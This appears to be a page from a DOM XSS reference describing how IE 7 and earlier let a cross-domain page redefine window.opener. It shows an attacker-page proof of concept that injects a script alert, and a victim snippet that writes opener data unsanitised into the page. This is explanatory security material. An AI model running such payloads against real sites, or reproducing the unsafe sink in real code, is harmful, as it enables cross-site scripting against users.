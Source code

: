 ### Other Objects Sources ###

(TBA)

  * opener (IE <= 7 Only)
  * parent/top/frames`[`i`]`.obj
  * event.data of onmessage event for postMessage method


#### Opener ####

In 2008 in [[[3](#References.md)]] it was presented a study about Browser Based DOM Xss, describing how browsers behave when objects belonging to different windows and domains are overwritten or deleted from evil pages.

It was found that IE <= 7 allows cross windows/cross domain opener redefinition, causing the re-instantiation of the object in the other window thus breaking the SOP in access control.

```
// From attacker.tld
window.aFrame.location="http://victim/PageUsingOpenerObject.html"
window.aFrame.opener={someAttr:"someValue", someAttr2: function(){return someReturnValue}}
```

So if a page from victim host uses:
```
<script>
document.writeln("<p>" + window.opener.Message + "</p>");
</script>
```

An attacker can use from `<iframe name=aFrame></iframe>`
```
// From attacker.tld
window.aFrame.location="http://victim/PageUsingOpenerObject.html"
window.aFrame.opener={Message:"<sc"+"ript>alert(document.domain)</scr"+"ipt>"}
```

The code above works perfectly on IE7 and the fake Message is taken by victim host, without any error message.

Opener object can, hence, be considered as a source of untrusted input in the unfortunate case the victim uses IE 7.

N.B. IE 8 fixes this issue.